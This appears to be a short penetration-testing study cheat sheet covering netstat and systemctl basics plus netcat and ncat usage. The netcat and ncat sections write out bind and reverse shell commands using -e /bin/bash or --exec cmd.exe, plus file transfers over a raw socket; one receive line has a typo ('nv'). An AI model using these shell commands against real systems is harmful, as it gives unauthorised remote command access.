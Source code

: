 ## Netstat
It shows all the services running and listening on a port:

```
netstat -antp | grep SERVICE
```

## Systemctl
In order to start or stop a service, we can use the command systemctl:

```
systemctl start SERVICE
systemctl stop SERVICE
```

If we want to have the service starting automatically  at boot time, we can use the options enable or disable:

```
systemctl enable SERVICE
systemctl disable SERVICE
```

# Essential Tools
## Netcat

```
Connect
nc -nv IP PORT [-e /bin/bash or cmd.exe]

Listen
nc -nlvp PORT [-e /bin/bash or cmd.exe]

* -e redirects the input, output and error messages to the PORT rather than the default console. So it binds the shell to a local port. Anyone who connects to the port will find a command prompt.

Transfer file 
nc -nv IP PORT < FILE.TXT

Receive file
nv -nlvp PORT > FILE.TXT
```

## Ncat
It is a reimplementation of Netcat. It is the same but allows to create encrypted communications:

```
Connect
ncat -v IP PORT -ssl

Listen
ncat --exec cmd.exe --allow IP -vnl PORT --ssl
```
